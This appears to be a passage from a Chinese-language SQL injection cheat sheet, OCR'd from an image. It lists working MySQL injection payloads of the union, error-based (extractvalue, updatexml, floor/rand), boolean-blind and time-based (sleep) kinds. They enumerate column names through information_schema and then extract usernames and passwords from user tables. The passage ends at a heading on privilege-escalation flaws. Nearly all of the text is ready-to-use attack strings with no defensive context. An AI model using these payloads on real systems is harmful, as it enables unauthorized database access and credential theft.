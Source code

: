 ```
报错：(select 1 from (select count(*),concat(0x3a,0x3a,(select group_concat(column_name)from information_schema.columns where table_schema="[数据库名]” and table_name="[表名]"),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b)

extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema="[数据库名]” and table_name="[表名]")，0x7e))

updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

```
布尔：and (select length(column_name) =2 from information_schema.columns where table_schema=database() and table_name="[表名]" limit 0,1)
and (select ascii(substr(column_name,1,1)) >0 from information_schema.columns where table_schema=database() and table_name="[表名]" limit 0,1)
```

```
时间：and if((select length(column_name) =2 from information_schema.columns where table_schema=database() and table_name="[表名]" limit 0,1),sleep(5),null)
and if((select ascii(substr(column_name,1,1)) >0 from information_schema.columns where table_schema=database() and table_name="[表名]" limit 0,1),sleep(5),null)
```

(6)收集信息table_name/column_name

from information_schema.columns where table_schema="[数据库名]"

8.利用column和表名获取用户名、密码

from [表名]

```
普通：union select 1,group_concat(username),group_concat(password) from users
```

```
报错：(select 1 from (select count(*),concat(0x3a,0x3a,(select group_concat(用户名/密码)from [表名]),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b)

extractvalue(1,concat(0x7e,(select group_concat(用户名/密码)from [表名]),0x7e)

updatexml(1,concat(0x7e,(select group_concat(用户名/密码)from [表名]),0x7e),1)
```

```
布尔：and (select length([用户名/密码]) =6 from [表名] limit 0,1)
and (select ascii(substr(username,1,1)) >0 from users limit 0,1)
```

```
时间：and if((select length([用户名/密码]) =6 from [表名] limit 0,1),sleep(5),null)
and if((select ascii(substr(username,1,1)) >0 from users limit 0,1),sleep(5),null)
```

==========

越权漏洞
